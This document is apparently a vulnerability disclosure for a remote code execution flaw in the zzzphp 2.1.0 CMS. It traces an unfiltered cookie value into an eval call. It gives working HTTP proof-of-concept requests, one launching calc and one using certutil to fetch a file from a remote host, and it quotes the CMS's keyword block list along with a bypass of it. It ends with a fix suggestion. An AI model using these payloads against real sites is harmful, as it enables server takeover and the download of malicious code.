 # zzzphp V2.1.0 RCE

## Vulnerability Analysis
Audit code download from: http://115.29.55.18/zzzphp.zip
![img-1](img/img-1.png)
![img-2](img/img-2.png)

Global search keywords: `eval`
![img-3](img/img-3.png)

Here you can see that the relationship of the controllable variables is: `$arr -> $ifstr -> $matcher -> $zcontent`
![img-4](img/img-4.png)

where `$zcontent` is a global variable:
![img-5](img/img-5.png)
After a bunch of processing above, it finally enters `$this->parserIfLabel($zcontent)` (where exists eval function)

Next, audit whether each function in front of `parserIfLabel()` can pass parameters to control `$zcontent`.

So search the `$zcontent` keyword globally in this file and find the `$this->parserSearch ( $zcontent )` function:
![img-6](img/img-6.png)

It means to replace `{zzz:keys}` in `$zcontent` with `$keywords`, trace back the value of `$keywords`, and find that it is just possible to pass parameters through cookies, and there is no filtering:
![img-7](img/img-7.png)

Continue to trace the trigger point of the `$this->parserSearch ( $zcontent )` function is called in `$this->parserlocation ( $zcontent )`, and the parserlocation function happens to be in the above functions:
![img-8](img/img-8.png)
![img-9](img/img-9.png)

To enter the parserSearch function, the premise is that the `$location` parameter is search, follow the `G()` function, and find that the parameters are obtained globally:
![img-10](img/img-10.png)

Then you can enter the vulnerability point function through `/index.php?location=search`, and then control the `Cookie: keys=xx` to control the input eval Malicious code.

Dynamic debugging found that `{zzz:keys}` is fixed in $zcontent after being processed by the previous function:
![img-11](img/img-11.png)

So directly control the `Cookie: keys=poc` can control $zcontent, and further control the content executed by eval:
Construct the poc request of the bullet calculator:
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookies: keys={if:=`calc`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The debugging trace shows that the poc we constructed can be extracted after regular matching: `calc`
![img-12](img/img-12.png)

Then it will go through the filtering of the `danger_key()` function, and the keywords that are found to be filtered are:
`array('php','preg','server','chr','decode','html','md5','post','get','request','file','cookie','session','sql','mkdir','copy','fwrite','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','create','func','symlink','sleep','ascii','print','echo','base_','replace','_map','_dump','_array','regexp','select','dbpre','zzz_','{if','curl')`

But it does not affect the execution of the command
![img-13](img/img-13.png)


## Command Execution
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookies: keys={if:=`calc`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
![img-14](img/img-14.png)

## Remote Download
Since `danger_key()` filters the `curl` command, but it can use the `certutil` command for remote download operations in Windows:
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: keys={if:=`certutil -urlcache -split -f http://192.168.2.104:8080/test`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
![img-15](img/img-15.png)

## Repair suggestion
in `E:\xxx\zzzcms\inc\zzz_template.php Line 1895` Using `danger_key()` function pairs `$keywords = getform ('keys', 'cookie');` Filter
![img-7](img/img-7.png)

